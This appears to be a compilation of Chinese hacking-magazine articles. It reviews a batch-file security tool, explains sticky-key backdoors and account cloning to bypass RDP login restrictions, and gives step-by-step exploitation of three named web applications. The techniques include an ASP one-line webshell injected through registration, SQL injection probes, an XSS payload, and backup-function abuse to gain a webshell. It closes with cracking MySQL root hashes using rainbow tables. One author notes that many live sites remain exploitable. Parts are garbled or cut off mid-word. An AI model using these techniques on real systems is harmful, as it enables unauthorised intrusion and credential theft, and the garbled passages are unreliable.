目前很多用户的电脑中除了安装杀毒软件外，还都会使用一些安全辅助工具。虽然这些安全工具非常实用，不过这也使得很多人忘记了系统中那些自带的小程序。今天我就为大家介绍一款安全小工具，它完全是利用批处理语句编写和封装的。该工具全部使用了 Windows 自带的系统命令来进行工作，因此无论是兼容性还是可靠性都要大大地优于其它工具。


### 一、工具的下载运行

首先我们从网上下载这款批处理版本的系统安全工具。由于它是一款绿色版软件，因此解压后就可以直接使用了。如果是第一次使用该软件的话，那么在运行后程序会进行初始化的操作，同时也会对工具自身的完整性进行一次检测，这样做完全是为了避免工具被人恶意地进行修改，如图1。所有的准备工作完成后，根据程序操作界面的提示我们按任意键继续，这时就可以看到程序的一个说明窗口，提示用户程序可以在紧急情况或安全软件无法运行时，对 Windows 系统进行相应的修复操作，如图2。


### 二、工具的相关操作

接下来同样是按任意键，这时程序就会构建一个安全环境，这样可以避免病毒驻留系统，如图3。根据提示按下键盘上的 Y 键，程序就会自动关闭除了系统进程外的所有进程，从而自动完成对安全环境的构建操作。这样也为用户创建了一个比较好的系统检测环境，可以避免其它软件的干扰。现在我们就可以看到工具的功能列表了，其中包括了快速扫描、注册表扫描、启动项扫描、病毒免疫等，如图4。

我们按下键盘上的 A 键，程序就会对系统进行扫描，默认情况下它可以分析出 245 种病毒，使用的是 MD5 信息对比的方式来进行分析。如果我们愿意的话，也可以自己通过网络收集一些病毒文件的 MD5 信息，将其复制添加到程序释放出来的 vm.data 文件中。程序一旦发现了病毒就会自动进行清除，如果没有的话就可以按任意键返回到主界面中了，如图5。


我们再来看看注册表扫描，按下键盘上的 B 键，程序就开始对注册表进行扫描了。现在的很多病毒都会使用修改注册表的方法来破解系统默认的相关设置，我们使用工具的注册表扫描功能就可以发现注册表被修改的地方。一旦发现了被篡改的信息，程序就会自动对其进行修复操作。扫描分析完成后，按任意键就可以看到扫描结果了，包括发现了多少处存在异常，已经成功修复了多少处的异常等等，如图6。如果出现了修复失败的内容，那我们就得考虑使用其它安全工具来进行修复了。

按下键盘中的 2 来创建一个标准文件，以后要进行对比的话就按下键盘中的 1，这时工具就可以将此时的文件信息和标准文件进行对比了，对比完成后就会将有差异的文件显示到一个文本文件中。


图6


图8

接下来我们看看工具的病毒免疫功能，按下键盘上的 D 键，程序就会对系统进行病毒免疫操作了。程序通过畸形文件夹和访问控制列表这两种方式来达到免疫计算机病毒的作用，如图7。当我们在该功能界面中按下任意键进行病毒免疫后，程序首先会对系统进行检测，查看是否已经免疫，如果没有的话就会自动进行免疫操作。这里需要说明的是，程序只可以对某些病毒进行免疫，而不是对所有的计算机病毒进行免疫操作。在免疫完成后可以按任意键返回到主界面中。

除了上面介绍的这些功能外，我们还可以进行启动项的扫描以及安全模式的修复，但是该工具只可以对注册表启动项进行扫描，并且不能对启动项中的信息进行删除操作，如图9。目前有很多比较厉害的病毒也会对系统的安全模式进行破坏，从而避免用户在安全模式中对其进行清除。对于这种情况，我们就可以通过“修复系统安全模式”功能来快速有效地对安全模式进行修复操作了。


图7


图9

> （文章中所用到的 bat 版系统安全工具已收录到光盘中）


## WEB服务给你防御之把黑客拒于远程终端门外

天天玩入侵，时间久了也会让人发疯的，所以偶尔来研究一下如何防御倒也算是个不错的调节方法。大家都知道，不管是入侵服务器，还是入侵成功后的一系列内网渗透行动，都有一个目的，就是连接对方的终端服务（当然种木马也是可以的，只不过木马都有自己的生命周期），并且入侵的手法与技巧，每个人也都会有自己的风格。

记得以前我曾经看过一篇名叫《开了3389无法登录的6种原因》的文章，基本上无法登录的原因都介绍到了（感兴趣的读者可以在网上搜索一下该文）。下面我就介绍一下本人的一些新发现。在那篇文章中的第四条，也就是管理员设置的终端登录权限只有指定的用户才可以，我认为这是最有杀伤力的，因为另外的5条都可以突破，但唯独这条限制很难被突破。我看了多年的黑客杂志以及网上的文章，基本上到最后大家都能连接并进入终端服务，有时我都搞不懂，到底是因为黑客太聪明，还是管理员不够谨慎才造成的。

下面我们开始进行实验：系统为 Windows 2003，默认的帐号为 administrator 和 guest，终端服务已经开启。默认情况下 administrator 属于 administrators 组，而 guest 则属于 guests 组。来看一下“终端登录权限只有指定的用户才可以”是怎么实现的：打开“控制面板”－“管理工具”－“本地安全策略”，选择“本地策略”－“用户权限分配”，在右边的窗口中选择“通过终端服务允许登录”，如图1。


点击右键并选择“属性”，我们可以看到系统在默认情况下是允许 administrators 组与 Guests 组登录的，把这两个都删除掉（这里很关键），然后点击“添加用户或组”，只把 administrator 用户添加进去，如图2。

刚才我已经说过了，administrator 是属于 administrators 组的，连接终端肯定没问题，而 guest 用户则属于 Guests 组，肯定连不上（因为我们设置的是通过用户名而不是通过用户组来识别的）。


那我们就把 guest 用户加入到 administrators 组来看看，如图3。加入到 administrators 组后，来连接远程终端，如图4所示。


看到没有，连接失败了。我们再把 guest 用户加入到 remote desktop users 组中来看看，如图5。加入到 remote desktop users 组后，再次来连接远程终端，如图6所示。


我们得出的结论就是：如果 guest 用户不在允许的远程终端登录用户列表里，那么不管是加入到 administrators 组，还是加入到 remote desktop users 组，都是无法连接的。大家可能还会想到使用控制台的方式来登录，命令为 `mstsc /console /v:ip`，这种方法也是连接不上的。我们最后再来看看 administrator 帐号到底能不能连接上，不然可能大家不会相信，如图7。

启动任务管理器，如图10，选择“用户”，右键点击 administrator（也就是刚才设置的在远程终端允许登录列表里的 administrator 帐号），我们选择连接来看看什么效果，如图11所示，依然能登录。


图7


图10


图8

文章到了这里，大家可能就会去想要如何突破了（如果添加的帐号不在远程终端允许的登录列表里，该怎样才能连接上去呢）。第一种方法就是克隆管理员帐号，来试试看，如图8所示。可以通过粘滞键之类的后门来启动注册表再进行克隆，克隆之后，再使用 guest 用户登录看看，如图9所示，果然能登录，而且拥有和管理员一样的桌面。


图11


图9

这是第一种方法，还有一种可行的方法，也是通过替换粘滞键启动任务管理器 taskmgr.exe 来实现的。我们先把注册表还原为克隆之前的状态，然后再来看看怎样突破，通过替换粘滞键启动任务管理器……

这种登录是不需要输入 administrator 帐号的密码的，比起第一种突破方法来要容易许多。现在，我们再回过头来想想突破的关键，其实就是通过粘滞键后门来实现的，因为粘滞键的权限属于 system，这是系统最高权限。返回到文章的中心来，要想把黑客拒之于远程终端的门外，我们只需要把 sethc.exe 的 system 权限禁用就可以了，如图12。


图12

自此，整个攻防就告一段落了。当然为了系统更安全，我还得把所有可能导致系统注册表、任务管理器启动的隐患排除掉，包括放大镜后门、屏幕键盘后门（当然还有其它一些未公开的启动后门方式）等。


## 简单分析28论坛网 V1.0 免费版漏洞

清原 长风 [B.B.E]

这天在网上看到有人爆出了 28论坛网 V1.0 免费版的一个 0day 漏洞，不过介绍得非常简单，于是我决定好好地分析一下，也算是自己对脚本分析的一种练习吧。

28论坛系统是由 28bbs.cn 开发的，但不知什么原因，官方已经放弃了新版本的研发，甚至已经开始出售 www.28bbs.cn 这个域名了。我们在百度或 Google 中搜索“28论坛网 V1.0 免费版”，就会找到很多关于这套系统的下载链接。我下载了一套并在 Windows 2003 系统上搭建好，来看它默认的主页，如图1。这套系统简单易用，简洁大方，和 bbsxp、phpwind 都很相似。如果我们打开它的数据库，就会感觉到更像了，因为所有表的前缀都是“BBSXP”。

这套论坛系统可以使用 Access 数据库或者 SQL 数据库（可以参看根目录下的 conn.asp 文件），但在默认安装的情况下使用的是 Access 数据库。它的数据库文件有三个，最主要的是位于 DataBase 目录下的 28bbsdatabase.asp，它存储了系统的核心数据，而其它两个数据库文件都是满足论坛其它插件式功能的。

当看到 .asp 格式的数据库时，经常与脚本打交道的菜鸟都会意识到这是个危险的设置，而最经典的利用就是数据库插马法来直接获取 Webshell。要想将木马插入到数据库中，那么就得利用有数据库写入动作的文件；就论坛而言，就是诸如注册页面、个人信息修改页面等等。接下来，我们就看注册页面 CreateUser.asp 是怎么写的，它位于论坛的根目录下，其界面如图2所示，以下就是该文件的关键代码：


图1

```asp
'......第一段
UserName=HTMLEncode(Request.Form("UserName"))
errorchar=array(" ","'","\"","%","&",...) 
for i=0 to ubound(errorchar)
  if instr(username,errorchar(i))>0 then error2("用户名中不能含有特殊符号")
next

if SiteSettings("BannedRegUserName")<>"" then
  filtrate=split("&"&SiteSettings("BannedRegUserName")&"&","|")
  for i=0 to ubound(filtrate)
    if instr(UserName,filtrate(i))>0 then error2("用户名中不能含有系统禁止注册的字符")
  next
end if
```

在这段代码中，系统过滤了可能在用户名中存在的特殊字符。我们可以看到这是一个黑名单，比起白名单来要相对容易绕过。


图2

### 一、漏洞分析

在长期分析系统的过程中我养成了一个习惯，就是先查看：

```asp
'......第二段
UserSign=HTMLEncode(Request.Form("UserSign"))
password=Trim(Request.Form("password"))
Userpass2=Trim(Request.Form("Userpass2"))
UserMail=HTMLEncode(Request.Form("UserMail"))
Userhome=HTMLEncode(Request.Form("Userhome"))
PasswordQuestion=HTMLEncode(Request.Form("PasswordQuestion"))
PasswordAnswer=HTMLEncode(Request.Form("PasswordAnswer"))
Userface=HTMLEncode(Request.Form("Userface"))
UserSex=HTMLEncode(Request.Form("UserSex"))
```

```asp
UserID=Rs("ID")
Rs.Close
```

这段就是将数据写入到数据库文件中，但也没有经过过滤，其中 password 使用 MD5 加了密。

从这段代码中我们可以看出，password、PasswordAnswer 等等填写的信息使用 Trim() 过滤首尾空格或者是 HTMLEncode() 转换编码，但只进行了这样简单的处理，根本就没有使用其它的过滤函数。

### 二、漏洞利用探索

```asp
'......第三段
Rs.Open "select top 1 * from [BBSXP_Users]",Conn,1,3
Rs.addNew
Rs("UserName")=UserName
Rs("Userpass")=md5(password)
Rs("UserMail")=UserMail
...
Rs("UserInfo")=""&HTMLEncode(Request("realname"))&"|"&HTMLEncode(Request("country"))&...
Rs.update
```

存在的漏洞我们已经分析完了，下面就是测试漏洞的利用了。来到注册页面，我们按照要求填写相应的信息，然后在选填内容的“个人简介”中填入 asp 一句话木马“<%execute request("a")%>”，如图3。


图3

填写完成后进行提交，注册成功了。我们打开数据查看，在 BBSXP_Users 表下的 UserInfo 中找到了刚才填写的个人简介信息，我们的一句话木马变成“&lt;%execute&#32;request(&quot;#&quot;)%&gt;”这个样子了，这是因为 HTMLEncode() 搞的鬼，如图4。


图4

为了能够让一句话木马正常地写入，所以需要将一句话转换成 Encode 编码形式，这样刚才的一句话木马转换后就变成了“十一整∨=┤”。我们再来注册一个用户，将转换后的一句话木马写入。为了验证写入是否成功，我们使用一句话木马的客户端来进行连接，一切顺利，Webshell 就这样拿到了，如图5。


图5

由于时间仓促，我就不对这套系统做过多的分析了。有兴趣的话，大家可以自己研究一下。当然本文的这个漏洞已经是很致命的了，在网上使用这套系统的网站还是挺多的，因此照着我上边介绍的方法，得到 Webshell 是非常轻松的了。当然还是希望大家能够适可而止，我们的目的在于学习，而不是破坏！

## 九辑PHP
### 人才程序3.0版漏洞大观


这几天正在学习 PHP，所以就顺手从网上下载了一套系统来练练手，没想到真的发现了几个漏洞，在此就和大家分享一下我寻找漏洞的过程，喜欢白箱测试的朋友可千万别错过了！

这是一套关于个人和企业发布信息的系统，源程序中有个 `mysql.sql` 文件就是用来存放数据库信息的。我简单说下导入数据库的过程：进入 MySQL 安装目录下的 `bin` 文件夹，同时也把 `mysql.sql` 这个文件拷到这个文件夹下，打开 CMD 命令提示符，执行命令 `mysql -u root -p test1 < mysql.sql`。这里的 `root` 为 MySQL 的用户名，`test1` 是已经存在的数据库，接着会提示我们输入密码，如图1。输入 MySQL 的密码后回车，数据库就导入完成了。


然后我们还要在 `incs` 文件夹下的 `phpClass.php` 文件里修改数据库的连接参数，来看最后一行 `$dbh = new dblink("localhost","root","root","test1");`，前面两个分别是连接的账号和密码，最后一个是连接的数据库。配置完成后，我们来访问一下网页看看，如图2。


现在就开始寻找漏洞吧。这里我再推荐一个工具——“FileAnalyzerApp”，运行后的界面如图3所示。这个工具可以自动搜索选定文件夹中的所有文件中是否包含有你想要搜索的字符串，如果存在就会把文件列出来。我们可以使用这个工具寻找一些比较敏感的词，比如“select”等，选择要搜索的文件夹，这里当然就是存放源程序的文件夹了。搜索完成后的结果如图4所示，这样就更加方便我们寻找漏洞了。


我们随便在主页上点开一个链接，比如 `http://localhost/person_detail.php?id=935`，直接在地址后面添加“`and 1=1`”和“`and 1=2`”，提交后的结果分别如图5和图6所示，现在就可以确定存在注入漏洞了。接下来，我们就可以查看文件，研究究竟是哪里出现的问题了。


图6

在 `person_detail.php` 文件中我们来看以下代码：

```php
$id = $_GET["id"];
$strmd5 = GetMd5();
......省略无用代码......
$subchannelname = "个人资料";
$contentlist1 = $UI->Get_Jianli_Content($id,$_SESSION["regUserID"]); // 传入用户id
```

可以看到其中的 id 直接传入了查询。`Get_Jianli_Content` 是在 `UIClass.php` 文件中的，我们打开这个文件看一下，出现的是乱码，如图7。因为文件经过了 zend 加密，我们需要先使用 DeZend 进行解密，运行 DeZend 后，选择加密的文件所在的文件夹，再点 dezend 就可以了，如图8。


图7

打开解密的文件，搜索 `Get_Jianli_Content`，会看到以下代码：

```php
public function Get_Jianli_Content($userid = null, $sessionid = null)
{
    global $dbh;
    $sql = "select * from userinfo where userinfoID=".$userid." ";
    $res = $dbh->query($sql);
    if ($res) {
        $valname = $res["Username"];
        $val = "";
    }
}
```

可以看到其中的 id 直接就带入了数据库的查询，而我们的邪恶参数也进入了查询，所以这里产生了注入漏洞。再来看 `http://localhost/company_job_list.php?reguserid=385` 这个链接，同样在地址后面添加上“`and 1=1`”和“`and 1=2`”会返回两个不同的界面。我们再来看它所对应的文件 `company_job_list.php`，代码如下：


图8

```php
$reguserid = $_GET["reguserid"];
$menu_bar = $UI->Get_Menu_Bar($_SESSION["userlevelID"],$_SESSION["regUserID"]); // 获取顶部菜单
......省略无用代码......
$companymemo = $UI->Get_Job_List($reguserid,'gongsimemo'); // 获取公司简介

public function Get_Job_List($reguserid,$contact)
{
    global $dbh;
    global $page;
    if ($contact != "") {
        $sql = "select isConfirm,Tel,HomePage,Mail,memo,D_Company,D_Contact,D_CompanyType,D_Add1,D_PostCode,D_Fax from userinfo where userinfoID=".$reguserid." and isConfirm=1 and userlevelID=9";
        $res = $dbh->query($sql);
        ......省略部分代码......
        if ($contact == "gongsimemo") {
            $val .= "<tr bgcolor=#cccccc><td height='25' align='center'><b>".$res['D_Company']."(...)</b></td></tr>";
            $val .= "<tr><td height='15'>".str_replace("\n","<br/>",strip_tags($res['memo']))."</td></tr>";
        }
    }
}
```

可以看到当 `$contact == "gongsimemo"` 时就会执行后面的代码，而后面则是返回查询的内容到网页上。

数值型的注入漏洞后，我们再来看看字符型的漏洞。虽然大部分的网站 `magic_quotes_gpc = on`，但多学习总是不错的。这次我们直接看文件，问题出在 `http://localhost/forgetPwd.php` 处，这是一个找回密码的文件，如图9。


图9

我们打开来看一下这个 `forgetPwd.php` 文件，代码如下：

```php
$act = $_POST["act"];
$method = $_POST["method"];
$Username = $_POST["Username"];
$Mail = $_POST["Mail"];
// 省略部分代码...
$menu_bar = $UI->Get_Menu_Bar($_SESSION['userlevelID'],$_SESSION['regUserID']);
$webtitle = $baseinfo->GetWebSiteTitle();
$ruserinfo = $UI->GetRuserinfo();
$curplace = "&nbsp;<a href='index.php'>首页</a> >> 找回密码";
$bannerad = $AdClass->GetAdShowIndex(1,1);
if (db($act)=="find") {
    $contentlist = $UI->SendPassWord($act,$method,$Username,$Mail);
} else {
    $contentlist = $UI->GetForgetPwdForm();
}
```

可以看到 `$Username = $_POST["Username"];`，直接把 Username 带入了参数，`SendPassWord` 也在 `UIClass.php` 中，代码如下：

```php
if ($method == "1") {
    $sql = "select RealName,Username,password,Mail from userinfo where Username='".$Username."'";
    $res = $dbh->query($sql);
    if ($res) {
        // 代码省略...
        if($sendbool){
            $val = "<b><font color='#FF0000'>恭喜:</font></b>密码已经发送至您的注册时的邮箱";
        }
    } else {
        $val = "<b>出错:</b>您输入的用户名不存在。<a href='javaScript:history.go(-1);'>请返回</a>";
    }
}
```

可以看到 Username 是直接带入了数据库查询，如果查询到了内容就会提示密码发送到了邮箱中，而如果查询不到就会显示您输入的用户名不存在。这里我就不进行演示了，大家可以在关闭 `magic_quotes_gpc` 的情况下来试一试。


图10

看完了注入漏洞，我们再来看看跨站吧。我们需要先找一个可以留言或者提交信息的地方，结果我找到了 `http://localhost/register3.php` 这里，这是填写注册公司信息的地方，在这里提交的信息会显示在网站的主页上，如图10。

老规矩，我们还是先来看代码，这里需要注意，我们提交到的文件是 `registergongsi.php`，涉及到注册的代码如下：

```php
$Username = $_POST['Username'];
$password = $_POST['password'];
$D_Company = $_POST['D_Company'];
// ...
// 公司名
$D_CompanyType = $_POST['D_CompanyType'];
// 公司类型
$D_Contact = $_POST['D_Contact'];
// 联系人
$Tel = $_POST['Tel'];
// 联系电话
$D_Add = $_POST['D_Add'];
// 联系地址
// 省略代码
if (db($act)=="insert") {
  $reg->SetAct("insert");
  $reg->Execute(...);
  $_SESSION['regUser']=trim($Username);
  $_SESSION['userlevelID']=trim($userlevelID);
  $_SESSION['isConfirm']=1;
  $_SESSION['regUserID']=$U1->GetReg_id($_SESSION['regUser']);
}
```

```php
function CheckRight($UserRightValue,$RightValue)
{
  $ArrRightStr[]=array();
  $ReturnVal=false;
  $ArrRightStr=explode(",",$UserRightValue);
  foreach($ArrRightStr as $StrVal){
    if(strcmp(trim($RightValue),trim($StrVal))==0)
      $ReturnVal=true;
  }
  if(!$ReturnVal){
    echo "您没有这模块的操作权限！请和管理员联系!";
    exit();
  }
}
```

我们输入的内容没有经过过滤就进了数据库，执行数据插入的类文件是 `incs/register.php`，其代码为：

```php
// 省略代码
$this->jobtypedetail2=$jobtypedetail2;
$this->JobKind=$JobKind;
$this->memo=$memo;

$sql="insert into userinfo set isConfirm=$this->isConfirm,
Username=$this->Username,
password=$this->password,
userlevelID=$this->userlevelID,
RealName=$this->RealName,
Sex=$this->Sex";
// 省略代码
$dbh->exec($sql); // 这是最要命的执行语句
```


图11


图12

我们尝试注册，除了 Email 存在本地认证外，其它的基本上都没有任何认证。直接在注册的地方输入代码“`<script>alert(/b/)</script>`”，如图11，然后再登录主页，结果如图12所示，这样就成功跨站了。更深层的应用这里就不介绍了，本文主要是教给新手朋友们一些分析查找漏洞的方法。最后我再来说一说后台的情况，看了一下后台文件，在认证方面还是不错的，大部分文件都通过 `CheckRight($_SESSION["adminUserRight"],"%**%")` 进行了一个权限认证，而 `CheckRight` 函数如上所示。

当我们利用前面介绍的注入漏洞得到账号和密码并登录后台，就会发现能够上传的地方并不多，在广告管理处有一个可以上传的地方，如图13，但是不能上传任意后缀的文件，上传的认证是这样的：

```php
$ext = trim(GetFileExt($_HTTP_POST_FILES['uploadAFile']['name']));
if($ext=="gif" || $ext=="jpg" || $ext=="swf"){
  ...
}
```

```php
$s = date('YmdHis');
$strFileName = $s.'.'.$ext;
move_uploaded_file($_FILES['upLoadAdFile']['tmp_name'],'./adFile/'.$strFileName);
$myClass->SetAct('insert');
$myClass->Execute0($adType,$Title,$strFileName,$LinkUrl,$AdWidth,$AdHeight);
header('location:ad.php?session='.$strmd5);
...
echo '您上传的文件类型不正确，广告文件只支持 gif、jpg、swf 格式';
```

这里通过 `$ext = trim(GetFileExt($_HTTP_POST_FILES['upLoadAdFile']['name']))` 取得上传文件后缀并做检测；若后缀不是 gif、jpg 或 swf 则提示格式不正确。并提到系统通过 `date('YmdHis')` 构造新文件名以保存上传文件。

到此漏洞介绍结束，文中说明了查找过程与利用思路，并提到相关程序与工具收录信息。


图13

## 网尽图片管理系统漏洞分析

清原*风[B.B.E]

最近在做免杀与 360 相关研究时，看到“网尽图片管理系统”漏洞，下载并快速分析。系统体量不大，文件数量较少，便于进行漏洞挖掘。

文章介绍该系统使用 Access 数据库，默认路径可被直接修改访问并下载数据库文件；下载后可获取管理账号与 MD5 密码等信息。


图1


图2

我把系统部署在 Win2003 + IIS 环境后进行测试。后台登录页为 `/manage/login.asp`，若破解出管理员 MD5 密码即可登录后台。


图3


图4


图5

我们来到管理员目录 `manage` 下面，查看了不少文件，发现都包含 `conn.asp` 和 `check.asp`，如图4。`conn.asp` 当然是数据库连接文件，而 `check.asp` 就是检验登录与否的文件；但也许是程序员的疏忽，`manage` 下的 `fso.asp` 文件却没有包含 `check.asp`，如图5。这也就意味着我们可以在非授权情况下访问 `fso.asp` 文件。等等，我们再来看看这个文件实现的是什么功能。通过阅读代码，我发现这是实现数据库备份和恢复备份的功能文件，部分代码如下：

```asp
<%
select case Request("menu")

case "bak"
  bak

case "bakbf"
  set MyFileObject=Server.CreateObject("Scripting.FileSystemObject")
  MyFileObject.CopyFile ""&Server.MapPath(Request("yl"))&"",""&Server.MapPath(Request("bf"))&""
  error2("备份成功！")

case "bakhf"
  set MyFileObject=Server.CreateObject("Scripting.FileSystemObject")
  MyFileObject.CopyFile ""&Server.MapPath(Request("hf"))&"",""&Server.MapPath(Request("yl"))&""
  error2("恢复成功！")

end select

sub bak
%>
```

我们可以看到如果是直接访问 `fso.asp` 文件是不行的，必须带上 `menu=bak` 参数才可以成功打开备份页面，如图6。看到这儿，可能有读者要问了，我们没有后台账号，进不了后台，根本就不能上传文件，那么有备份权限又有什么用呢？大家别心急，备份权限即写权限。借助我们开始时的分析，`manage` 目录下的其它文件的访问也许都要经过 `check.asp` 的检验和授权，要是 `check.asp` 文件挂掉呢？又会出现什么样的效果呢？我们来试一下。


图6

在“备份数据库”中的“数据库路径”处填上一个非 `check.asp` 文件的相对路径，理论上其它任何文件都可以。我们为了保险起见，就填写一个不能执行的文件“`../db/#artloolong.mdb`”（也就是网站的数据库文件），在“备份的数据库路径”处填上 `check.asp`，点击“备份”后，提示备份成功了，如图7。


图7

然想起数据库文件被我们活生生地变成了 check.asp，然而 index.asp 却包含了 check.asp，这也就导致了数据库被打开的现象！分析之后，我又尝试了将“/manage/images/”目录下的一幅图片备份为 index.asp，依然不行。思考了几秒钟，既然非执行文件不行，那我们就找一个可执行文件来试试，但是这个可执行文件的执行不能影响我们的访问才行。我在“/manage”目录下找到了 web.asp 文件，这个文件的执行不会影响到我们，如图9。于是我将其备份为了 check.asp，此时我们再访问后台“/manage/index.asp”，如图10，这下正常了，顺利地来到了后台。

来到了后台就该拿 WebShell 了。我首先试了试图片上传功能，结果不能上传 asp 木马，为什么呢？我简单地分析了一下，图片上传功能是由“/manage/Upload.asp”文件承担的，Upload.asp 为 VBScript.Encode 加密，解密出来后发现过滤了后缀。看来对于文件上传限制得还可以（Upload.asp 文件代码大家可以自己分析一下 ^_^）。上传不行那就只有再使用数据库备份了，把 asp 木马的后缀直接改成 jpg 后通过图片上传功能正常地上传上去，如图11。到前台查看图片来得到网页源码，再得到上传文件的路径，记录下路径后再使用数据库备份功能来得到 WebShell。这个过程非常简单我就不详细介绍了，如图12。


至此，WebShell 就得到了。这套系统介绍到这里，就已经是千疮百孔了。当然漏洞还有，大家注意到没有，在我们的整个分析过程中，都没有发现防注入类型的代码或者文件，也就是说这套系统是完全可以注入的。就拿图片展示文件 img.asp 来说吧，其代码如下：

```asp
<td height="25"><div align="center">
<%sql3="select top 1 * from titleimgbook where imgbook.titleID=title.titleID and title.titleName='"&request("title")&"' and imgbook.id<"&request("id")&" order by imgbook.id desc"
set rs3=server.CreateObject("adodb.recordset")
rs3.open sql3,conn
if not rs3.eof then
...
%>
```


SQL 注入就留给大家来解决了，呵呵。应该说这套系统完全算是个半成品吧，至于如何在网上寻找到这套程序，大家可以在 Google 中搜索版权信息就行了！


它的 id 参数就是一个 Integer 类型，这是个良好的条件。默认的链接是“img.asp?id=92&title=模特风采”，我们只需要将参数调换成“img.asp?title=模特风采&id=92”后放入 pangolin 就可以注入，注入解释了，如图13。当然如果你有足够的耐心和时间，手工猜解也是完全可以的。

分析到这里文章就差不多该结束了，至于这套系统的 cook-

## 用彩虹表破解 MySql hash

前些日子在某论坛看关于内网渗透技术的一个帖子时，有人提到了破解 MySql hash，我当时也不知道怎样破解。几天后，t00ls 论坛的上帝之发了一个帖子，提供了 MySql Sha1 彩虹表的下载，在帖子中他也提到了使用彩虹表破解 MySql hash 的方法以及用到的工具。我花了两天多的时间把提供的彩虹表下载了回来，然后照葫芦画瓢地实际操作了一下，学会了这个方法。正好这几天比较闲，就特意把具体的破解方法写了出来，以和叉子们分享！

当然在实际的入侵过程中我们是不可能通过在“MySQL Command Line Client”中执行命令来获得 hash 的，但是如果存在注入点，并且权限足够的话，那么通过注入点执行 `select password from user where user='root';` 也可以得到 hash；另外，MySQL 的用户信息是保存在一个文件中的，其文件名就是 user.MYD，它一般位于“Documents and Settings\All Users\”目录下，比如我电脑上的 user.MYD 文件就是在“C:\Documents and Settings\All Users\Application Data\MySQL\MySQL Server 5.1\data\mysql\”目录下的（默认安装情况下），如图2。

我们一般破解 root 用户的 hash，因为 root 用户是 MySql 中的默认账户，在 MySql 中 root 用户的权限最高，root 用户的密码很可能是 3389 的密码，也可能是 SSH 的密码……本文我们就来破解 root 用户的密码 hash。

要想破解 hash，首先就得得到 hash。MySql 加密密码的算法包括了两种，分别是 mysql 323 和 mysql sha1。经过 mysql 323 加密后的 hash 是 16 位，经过 mysql sha1 加密后的 hash 是 40 位。mysql 323 算法相对于 mysql sha1 算法较脆弱，比较容易被破解。由于上帝之发提供的是 MySql Sha1 的彩虹表，而我电脑上的 MySql root 用户的密码也是使用 mysql sha1 算法加密的，因此我就以破解经过 mysql sha1 算法加密的 hash 为例来进行介绍。


得到本机 MySql root 用户的密码 hash 非常简单，在“MySQL Command Line Client”中执行 `select password from user where user='root';` 语句就可以得到了，其中“6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9”就是 root 用户的密码 hash，正好是 40 位，如图1。


使用记事本尝试打开 `user.MYD` 文件，会提示“另一个程序正在使用此文件，进程无法访问。”我们把 `user.MYD` 复制到别的目录下就可以打开了，`root` 后面的那一个长长的字符串就是 `root` 用户的密码 hash，如图3。所以，在得到 WebShell 的情况下，我们也可以考虑通过下载 `user.MYD` 来得到 `root` 用户的密码 hash。


知道了怎样获得要破解的 hash 后，我们再来说下破解要用的彩虹表。上帝之爱提供了一个 10G 左右的彩虹表，可以破解的密码为：

- 数字：1~11 位
- 大写字母：1~8 位
- 小写字母：1~8 位
- 小写+数字：1~7 位
- 小写+数字+符号：1~6 位

限于这个彩虹表太大，我们无法在光盘上收录，如果需要的话，大家可以到 `http://down.51luyu.cn/` 来下载，我可是使用了两天的时间才把彩虹表下载回来，如图4。

接下来我们就实际破解一个 hash。我是在虚拟机中进行的测试，由于虚拟机的硬盘大小有限，我只把 `mysqlsha1_loweralpha-numeric#1-7_0_4000x40000000_oxid#000.rt`、`mysqlsha1_loweralpha-numeric#1-7_0_4000x40000000_oxid#001.rt`、`mysqlsha1_loweralpha-numeric#1-7_0_4000x40000000_oxid#002.rt` 这三个文件拖到了虚拟机中，也就是破解由 1-7 位小写字母+数字组成的密码的彩虹表文件，如图5。


我电脑上 MySQL 的 root 用户的密码本来为 123456，对应的 hash 为 `6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9`，但……

为了满足密码是 1-7 位小写字母+数字的彩虹表文件的要求，我特意把密码改为了 `123456x`，对应的 hash 为 `E81C7A4AEE11CDA15D65217ACC8986B9CAEE0052`，如图6。


首先介绍破解 MySql hash 的第一个工具——PasswordsPro。当然使用别的工具也可以破解 MySql hash，比如 Cain，但本文我们只以 PasswordsPro 为例。PasswordsPro 是一款密码恢复工具，可以用来恢复 MySQL、MySQL5、DES（Unix）、MD4、MD5、SHA-1 和 Domain Cached Credentials 等哈希函数。软件运行后的界面如图7所示。在软件中间的空白区域中点击右键，选择“添加”，在弹出来的窗口的“名称”处随便填写，“哈希”栏就填写我们要破解的 hash 值 `E81C7A4AEE11CDA15D65217ACC8986B9CAEE0052`，“哈希类型”选择 MySQL5，其它的保持默认就可以了，点击“添加”按钮后就会添加一个等待破解的 hash 了，如图8。


下面我们对软件进行一些设置，首先要选择破解用的彩虹表文件。选择“服务”菜单中的“选项”，默认打开的就是“彩虹表”文件的设置。在右边的“当前彩虹集”中点击右键，选择“添加”，然后选择我们破解时用到的彩虹表文件（支持通过 Ctrl 键选择多个文件），如图9。我们把刚才传到虚拟机中的那三个彩虹表文件全部选上。然后点击“彩虹表”的上一级设置项“彩虹表攻击”，右边窗口中的“字符集配置文件”就选择 `PasswordsPro.exe` 同目录下的 `Charset.txt`，如图10。


图9


图10


图11

点击“确定”按钮后完成设置，点击蓝色的开始破解按钮后就会进行破解了。过了一会儿出来个错误提示窗口，提示彩虹表文件 `mysqlsha1_loweralpha-numeric#1-7_0_4000x40000000_oxid#002.rt` 未排序，如图11。点击“确定”按钮后提示破解完成，但是没有找到密码。既然提示了 `mysqlsha1_loweralpha-numeric#1-7_0_4000x40000000_oxid#002.rt` 没有排序，那我们就对它进行排序，使用到的工具是 Winrtgen。

把 Winrtgen.exe 以及同目录下的所有文件复制到存放彩虹表文件的目录下，先别急着运行 Winrtgen.exe。我们使用记事本打开 Tables.lst，发现这个文件是空的，把 PasswordsPro 提示没有排序的彩虹表文件的名字写到 Tables.lst 文件中，一个文件名一行，并且不要忘了在文件名后面加一个“;”号，如图12，最后别忘记了保存文件。

现在我们运行 Winrtgen.exe，软件显示了没有排序的彩虹表文件的名字，如图13。


图12

点击“Ok”按钮后就会对文件进行排序了，排序时对系统资源的占用比较大，电脑配置比较差的话，可能会需要比较长的时间。两分钟后，未排序文件名前多出了个绿色的对号，排序完成了，如图14。


图13


图14

不要关掉 Winrtgen 程序，我们再次来到 PasswordsPro，点击开始破解按钮，过了一会儿，就成功地破解出了密码 123456x，如图15。好了，如何利用彩虹表文件破解 Mysql hash 就给叉子们简单地介绍到这儿。如果我们有更大的彩虹表文件，就可以破解更复杂的密码哦！


图15

